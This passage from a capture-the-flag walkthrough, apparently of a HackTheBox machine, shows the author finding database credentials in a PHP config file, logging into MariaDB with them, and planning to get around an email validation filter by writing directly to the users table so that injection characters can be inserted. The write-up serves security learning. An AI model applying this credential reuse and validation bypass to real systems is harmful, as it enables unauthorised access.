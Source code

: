                 }
            }
        }
    

The challenge is that to make it into the DB, it has to pass this line:

    
    
    if(filter_var($email, FILTER_VALIDATE_EMAIL))
    

[This filter](https://www.w3schools.com/php/filter_validate_email.asp) will
check for non-email characters, which I need to inject. Luckily, I can just
write to the DB. `db.php` has the connection info:

    
    
    <?php
    $dbhost = "localhost";
    $dbuser = "crossfit";
    $dbpass = "oeLoo~y2baeni";
    $db = "crossfit";
    $conn = new mysqli($dbhost, $dbuser, $dbpass, $db);
    ?>
    

Those creds allow me to connect:

    
    
    hank@crossfit:/var/www/gym-club$ mysql -u crossfit -poeLoo~y2baeni crossfit
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 3032
    Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10
    
    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    MariaDB [crossfit]>
    

The `users` table is empty:

    
    
    MariaDB [crossfit]> select * from users;
    Empty set (0.000 sec)
    

If I go to `http://gym-club.crossfit.htb/jointheclub.php` and sign up, my
email is now in the table:

    
    
    MariaDB [crossfit]> select * from users;
    +----+-------------------+
    | id | email             |
    +----+-------------------+
    | 52 | 0xdf@crossfit.htb |
    +----+-------------------+
    1 row in set (0.001 sec)
    